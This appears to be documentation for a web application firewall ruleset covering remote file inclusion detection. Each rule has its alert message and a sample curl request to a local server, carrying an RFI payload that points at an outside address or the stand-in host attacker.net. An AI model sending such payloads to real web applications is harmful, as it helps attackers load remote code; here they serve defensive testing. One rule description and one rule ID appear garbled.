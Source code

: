 ```yaml
---
title: "Core Ruleset: 931xxx"
---
```


Rules with the 931xxx prefix protect web applications from remote file inclusion attempts that can be made by attackers.

## Paranoia Level 1 (default)

<details>
<summary id="931100">Rule: 931100</summary>

Protects web applications from directory traversal attacks. This will inspect request args, headers and files to ensure that no directory traversal attempts are made by the client.

**Message:** `Possible Remote File Inclusion (RFI) Attack: URL Parameter using IP Address`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=https%3A%2F%2F1.1.1.1%2Findex.php'
```

</details>

<details>
<summary id="931110">Rule: 931110</summary>

Prevents the use of include statements in a request payload.

**Message:** `Possible Remote File Inclusion (RFI) Attack: Common RFI Vulnerable Parameter Name used w/URL Payload`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=include(%22ftp%3A%2F%2F1.1.1.1%2Ftest.php%22)'
```

</details>

<details>
<summary id="931120">Rule: 931120</summary>

Restricts the use of file protocols with a dangling question mark. This can be used by an attacker to trick a web server into including a file from a remote location.

**Message:** `Possible Remote File Inclusion (RFI) Attack: URL Payload Used w/Trailing Question Mark Character (?)`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=https%3A%2F%2Fattacker.net%2Ftest.php%3F'
```

</details>

## Paranoia Level 2

<details>
<summary id="931130">Rule: 93113  0</summary>

Some application packages will implicitly interpret `url:file://` as a local address and include them without checking existence locally.

**Message:** `Possible Remote File Inclusion (RFI) Attack: Off-Domain Reference/Link`

**Example:**

```
curl --request GET \
  --url 'http://localhost:8088/?q=uri%3Ahttps%3A%2F%2Fattacker.net%2Ffile.jar'
```

</details>


## Paranoia Level 3

This module does not define checks for paranoia level 3.

## Paranoia Level 4

This module does not define checks for paranoia level 4.
